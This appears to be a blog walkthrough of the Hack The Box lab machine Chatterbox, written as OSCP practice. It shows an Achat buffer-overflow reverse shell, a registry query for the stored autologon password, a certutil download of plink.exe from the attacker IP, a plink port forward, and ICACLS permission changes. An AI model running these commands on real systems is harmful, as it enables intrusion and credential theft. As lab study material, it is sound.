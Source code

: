 ```yaml
---

title: "Chatterbox HTB"
date: 2024-01-23 20:17:41 +0800
categories: [Chatterbox-HTB, Medium]
tags: [Chatterbox, Medium-Windows, HTB Walkthrough]

---
```





Fast forward to this series, I am working on all of the boxes that lead to OSCP. Mainly focusing on Thinking Methodology “Why we are doing what we’re doing.” End of the road, I am gonna create a mind map. Please shower me with constructive feedback. I try to improve as I progress.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*24foep-47CWMtb8Fz3zIMg.png)
Analyzing Nmap result:
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*e6AwroFCXX4HFoTJxHgh2A.png)
There’s a 9255 and 9256 ports one is TCP & the other one is UDP. Both are functioning as an Achat Chat system httpd.
The operating system is Windows 7601 Service Pack 1.
The port we have discovered is 9256(UDP, Achat). Upon searching for vulnerabilities through searchsploit.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*5ljW0dw_00Ply9T5lpKYgQ.png)
we can spot this vulnerability, Remote Buffer Overflow.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*zpsdHj3ZyNk4saBT-zlB-Q.png)
Upon inspecting the payload, we can see that all the bad characters are already placed for us. Upon execution, it is running calc.exe in order for the payload to be worked.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Ic-6z9V3CDyXKP6SADye3w.png)
There are 2 ways of getting an initial foothold onto the system with this exploit. It can be more with Metasploit exploit. This procedure is based on no metasploit methods. This is better because this machine resembles OSCP boxes, where the use of Metasploit is limited to one machine.
Seeing the payload size is limited to around 512 bytes, which is relatively very low.
we can normally use staged payloads here. So, it will be taking fewer bytes now. And execute back from the victim machine later.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*ivVbi_wp1Lhkpmg7cPgZmA.png)
So, for this exploit to work, we have to create a payload. The bad characters are already written for us inside the code. Just needed to add address and payload options to gain a shell. In this case a reverse shell. So you can generate the following payload.
Example payload:
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*7q5-m5tXVzXn00Vs0DUfLg.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*D6HEfLckIhwF9Z73DF5hJw.png)
For this method to work, we need to run a Python server. While hosting the InvokeTcp Reverse shell PowerShell file from Nishang’s Powershell scripts. 
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*xXajxGgC-E8AZDj6yd-kPA.png)
Don’t forget to add Invoke-PowershellTcp -Reverse -IPAddress <IP> -Port 443 at the end of the file inside the Powershell script which you have been uploading.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*e67VmQ5PtjMar_wUGMWR4g.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*pboXtj_KjYgKqWEtQ9ChMw.png)
And and, This can get you the shell you are looking for…
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*EtqnVHt_rBD29oTNlbGm6A.png)
Method #2:
Non-Staged vs Staged Payloads:
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*SBiXvlmSH8sc371bTDzYXw.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Gtsl95OI8vFywfWDVVQ9uw.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*EtqnVHt_rBD29oTNlbGm6A.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*PCppnQ8PrC-sNvQpwqSNuQ.png)
And Tada!! User flag is found.
Still, we can’t access the root.txt inside the administrator directory.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*O0iiQaq5UaIYi_aIFkSq0A.png)
reg query “HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon” 2>nul | findstr “DefaultUserName DefaultDomainName DefaultPassword”
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*f9YVn847vWrJ9U2HvanuCg.png)
we got the Alfred user’s password. we got some results out of system enumeration.
Let us continue to surf more with network enumeration.
netstat -ano → for information about ports that were running on the system.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*AKEUqRSR4ZTXBeMax0U6cw.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*9CdczkZH2LygXGfBgvKxyg.png)
Seem’s like these two ports 135 and 445 are invisible from our scan.
So, these ports are open on the local network and invisible to the outside network with an Nmap scan. And yes we can absolutely use port forwarding similar to the SSH port forwarding. Since we have no active SSH connection right now.
Using a Putty tunnel can be a better option since it supports port forwarding. If we are able to establish a putty connection from the Alfred machine. Then we might have a chance of escalating the privileges further.
certutil -urlcache -f http://10.10.14.89/plink.exe plink.exe
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*jjSdPGk1v7V2sbG1qezsnw.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*kj9K78F5lAeDMS_dEznnTQ.png)
I was using this 32-bit executable from the Putty website.
after getting our putty on the victim machine.
Make sure the root access is permitted from our Kali machine with making sure changing this setting and configuring the SSH at line 32.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*x_X56qKvfeO0vNj5PyeQ1A.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*QRponplwzuVSX6T2DHJc2w.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*4Lo9KIDBDA5QFpDoMYTKCQ.png)
Change this from 22 to a random working port if this method doesn’t work then try again. Since my HTB is blocking away 22 ports for some reason.      
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*SSwe09oAG3D71Fq8_zaRzg.png)
plink.exe -l kali -pw toor -P 4545 -R 445:127.0.0.1:445 10.10.14.89
Can get us access to our root shell. So, basically, it sign in our box as root to the inside chatterbox machine. This didn’t work in my case.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*nVruvgytcDye11irtHqVxQ.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*dejAdN7LNyl5MzmVwIOdcg.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*f1M7qMPDkWpKg2hKlMn2bQ.png)
Going forward I have tried the Metasploit method but it didn’t as well.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*FzE-mgeoZRWRRRWV9JqLOg.gif)
Method #2:
Since we are given access to the Administrator directory but seems like we don’t have access to the root.txt file inside it.
I was running around trying gigantic things this is so simple approach.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Yfva923reyBCyRrJDgBVqg.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Q8-qqQ8KSa4rtKsMH9cP5g.png)
ICACLS root.txt /grant “Users”: F
After this, we can easily access it.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*OYZdIRMIjTl322D_fM1Oxw.png)
And we got ROOOOOT Flag!!
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*F2Qnd1q91RmYQB71t2og2A.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*FvXmzjMkTPwwCPSXM6lwKA.gif)
But it still is a good learning curve,
You’ll get to use System Enumeration commands to find hidden passwords. And how to Execute PowerShell commands on the victim machine remotely with Windows/exec CMD. File transfers. Upgrading the Netcat shell to Meterpreter shell. Finally Elevating File permissions. I did learn a lot of cool tricks out of this machine. Hopefully, you had fun too.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*g35dlV5KPNCQXBmTtL3GfQ.gif)
why we are doing, what we are doing?
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*yzbm8C05oJ5xmCHMbXXQlw.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*dp0mmFA_Z4_PceJK36MRkw.png)
Thank you for following up.